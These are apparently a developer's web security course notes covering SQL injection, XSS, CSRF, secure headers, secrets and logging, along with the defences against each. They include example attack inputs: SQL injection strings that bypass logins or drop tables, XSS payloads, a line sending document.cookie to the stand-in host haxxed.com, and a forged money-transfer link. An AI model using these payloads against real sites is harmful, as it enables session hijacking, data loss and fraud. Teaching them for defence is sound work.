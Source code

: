 ### Star of Security

![star](../img/star.png)

### Injections

* Most common Attack
* Injecting code to another piece of code
* Most famous: SQL Injection
* https://www.hacksplaining.com/exercises/sql-injection
```txt
' or 1=1--
The above in Password field so that it will return True
'; DROP TABLE users; --
```
```sql
CREATE TABLE sqlinjection (
  id serial PRIMARY KEY,
  email text UNIQUE NOT NULL
)

INSERT INTO sqlinjection (email) VALUES ('lol');

--Example of sql injection
INSERT INTO sqlinjection (email) VALUES (''; DROP TABLE sqlinjection; --);

-- means comment everything after it
```
* https://github1s.com/aneagoie/security-client-exercise/blob/HEAD/index.html
* https://github1s.com/aneagoie/security-server-exercise/blob/HEAD/server.js
```js
<script>alert('boom')</script>
```
* Scripts injected into the DOM via script tags in innerHTML are not run at the time they are injected
  * Inline scripts are run at the time the original page is parsed
```js
<img src="/" onerror = "alert(1);">
```
* On the other hand, images injected into the DOM are loaded at that time, and if the loading fails, then the onerror event handler is called 
* But Images are loaded
* https://github1s.com/aneagoie/security-client-exercise/blob/HEAD/script.js#L2
* Use **createTextNode instead of innerHTML**

#### 3 ways to prevent Injection
1. Sanitize input: For data validation, only allow user to enter data of expected type(like text, email etc)
2. Parametrize Queries: Give only parameters 
3. Knex.js or other ORMS

### 3rd Party Libraries

* Library you can trust
* Go to Github and check their stars and forks
```sh
npm install -g nsp
# use sudo if you lack permission
nsp check # audit package.json

npm install -g snyk
synk test # audit node_modules directory
```

### Logging

* With good Logging, we would be able to find issues quickly
```sh
npm i winston
npm i morgan
```
```js
const morgan = require('morgan')

app.use(morgan('combined')); // or 'tiny'
```
* http://expressjs.com/en/resources/middleware/morgan.html
* https://github1s.com/aneagoie/security-server-exercise/blob/HEAD/server.js#L18-L19
* https://www.npmjs.com/package/winston
* Never log out system errors to Front-end

### HTTPS Everywhere

* SSL/TLS Certificates
* Encrypts the info between client and server
* To get HTTPS
  * Let's Encrypt(https://letsencrypt.org/): Free
  * Github Pages
  * Cloudfare
  
### XSS & CSRF

* https://www.hacksplaining.com/exercises/xss-stored
* https://www.hacksplaining.com/exercises/csrf
* https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
* https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
* **XSS**: Cross Site Scripting
  * Whenever an Application includes untrusted data in a new Web page without proper validation or escaping
  * Updating a Web page with User supplied data using JS
  * Allows Attacker to execute scripts in a victim's browser
  * Example of blog post in which attacker uses comments to include js code
  * Used for **session hijacking**
```js
window.location = 'haxxed.com?cookie=' + document.cookie
// haxxed.com is a bad website
// Send the cookie from your browser
```
  * To prevent this, sanitize the inputs
* **CSRF**: Cross Site Request Forgery
  * Create a bad url that has malicious code in it
```js
<a href="http://netbank.com/transfer.do?acct=AttackerA&amount=100">Read more!</a>
// Click on a link to send money
// Here get request and query parameters are used, instead we can also use post request and various other things
```
* We can set headers in our endpoints to make it secure
  * For ex, in twitter you can't send document.cookie to other sites due to Security Content Policy
```js
app.get('/', (req, res) => {
  res.cookie('session', '1', { httpOnly: true, })
  res.cookie('session', '1', { secure: true })
  res.set({
    'Content-Security-Policy': "script-src 'self' 'https://apis.google.com'"
  })
  res.send('Hello World!')
})
// Only places js to be run is self: localhost and google apis
// There are npm packages where this is done automatically
```

#### To Prevent XSS & CSRF

* Sanitize input
* No eval()
* No document.write()
* Content Security Policy
* Secure + HTTPOnly Cookies

### Code Secrets

1. Environment Variables: API key
   * process.env set by create-react-app
   * Under the hood, it uses dotenv package
   * .env file in create-react-app(REACT_APP_SAY_HI=HIII)
   * Run npm start again and you can see the details in process.env
2. Commit History
  * Include .env in .gitignore
  * Don't commit your code secrets to Github

### Secure Headers

* npm install helmet
* Without helmet, make some request in input field
* In Network tab of that request, in the Headers section, you see
  * Info of X-Powered-By: Express
* https://github1s.com/aneagoie/security-server-exercise/blob/HEAD/server.js#L9-L10
* HTTP Headers: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers
* HTTP Header fields: https://www.tutorialspoint.com/http/http_header_fields.htm
* helmet: https://github.com/helmetjs/helmet
* HTTP: The Protocol Every Web Developer Must Know: https://code.tutsplus.com/tutorials/http-the-protocol-every-web-developer-must-know-part-1--net-31177

### Access Control

* Principal of least privilege
  * Give nearly enough so that People can do their work and nothing more
* CORS: Cross origin resource sharing
  * Access to only people we trust using corsOptions
![cors](../img/cors.png)

### Data Management

* Encrypt only sensitive data
  * bcrypt, scrypt, aragon2
  * pgcrypto - encrypt a few columns(Encrypting database)
* https://rangle.io/blog/how-to-store-user-passwords-and-overcome-security-threats-in-2017/